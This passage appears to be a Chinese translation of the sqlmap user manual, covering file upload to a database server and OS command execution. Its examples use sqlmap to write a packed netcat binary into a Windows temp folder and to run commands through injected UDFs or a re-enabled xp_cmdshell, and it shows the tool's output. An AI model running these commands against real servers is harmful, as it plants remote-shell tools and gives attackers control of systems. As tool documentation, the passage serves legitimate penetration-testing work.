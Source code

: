 #### **3.12.2 上传文件到服务器**
> 参数 –file-write和–file-dest

当后端数据库管理系统是MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定函数上传文件时，sqlmap可上传文件到目标服务器上，既可以是文本文件也可以是二进制文件。

同样这些技术可参考[ Advanced SQL injection to operating system full control](https://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)

针对MySQL目标上传二进制UPX压缩文件的的示例：
```
$ file /software/nc.exe.packed 
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32
-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" --file-write "/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1
```
结果：
```
[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL >= 5.0.0

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been success
fully written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 b
ytes, same size as the local file '/software/nc.exe.packed'
```

### 3.13 操作系统控制

#### **3.13.1 执行任意操作系统命令**
> 参数和开关 --os-cmd和--os-shell

当后端数据库管理系统或者是MySQL和PostgreSQL或Microsoft SQL Server，并且当前用户具有相关权限时,sqlmap可以在服务器的底层操作系统上执行任意的命令。

当目标数据库是MySQL或者PostgreSQL时，sqlmap会上传包含用户自定义函数`sys_exec()和sys_eval()`的共享库（二进制文件），然后在数据库上创建并调用其中一个函数来执行命令（具体调用哪个会询问你的意见）。在Microsoft SQL Server上，sqlmap会利用xp_cmdshell存储过程：如果它被禁用（默认情况下，Microsoft SQL Server> = 2005），sqlmap将重新启用它; 如果它不存在，sqlmap会从头开始创建它。

当用户需要看到标准输出时，sqlmap使用一个可列举的注入技术（盲注，带内或基于错误的注入）来执行命令。反之，则使用堆查询注入技术来执行命令。

这些技术可详细参考[ Advanced SQL injection to operating system full control](https://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)

针对PostgreSQL目标的示例：
```
python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --os-cmd id -v 1
```
输出：
```
[...]
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: PostgreSQL
[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
[hh:mm:12] [INFO] testing if current user is DBA
[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
```